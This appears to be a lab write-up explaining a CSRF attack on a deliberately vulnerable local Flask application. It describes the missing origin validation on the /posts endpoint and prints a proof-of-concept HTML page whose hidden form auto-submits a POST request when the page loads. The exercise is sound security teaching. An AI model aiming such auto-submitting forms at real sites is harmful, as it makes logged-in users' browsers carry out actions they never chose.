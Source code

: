 ## PERFORMING A CSRF ATTACK 

<p align="center">
<img src="images/Screenshot from 2025-05-10 21-46-44.png" alt="csrfino" width="400" style="border-radius: 12px; outline: 5px solid #d6d6d6;"/>

<p style="text-align: center; font-weight: bold;">
  CiSRaFino Attackino
</p>
<p style="text-align: center; font-style: italic;">
  Alice is back—still logged in, still trusting... and now, a target of CisraFino Attackino
</p>


CSRF is a type of attack where a malicious website or web application can force a user's browser to perform an unwanted action on another web application in which the user is currently authenticated.

The web application, built with Python and Flask, has a vulnerability in its "posts" functionality. Specifically, the application doesn't properly validate the origin of the requests to the /posts endpoint.

### WHAT AN ATTACKER CAN DO

To perform the attack, we created a malicious HTML page (named malicious_attack.html).  This page contains an HTML form that, when submitted, sends a POST request to the vulnerable application's /posts endpoint. The form includes a hidden input field named "message" with the value "This is a CSRF attack!". This is the data that we want to submit as "attackers" to the vulnerable application.

```html
<body>
    <h2>CSRF Attack Simulation</h2>
    <form method="POST" action="http://127.0.0.1:5000/posts">
      <input type="hidden" name="message" value="This is a CSRF attack!">
    </form>
    <script>
      // Automatically submit the form after loading the page
      document.forms[0].submit();
    </script>
  </body>
```
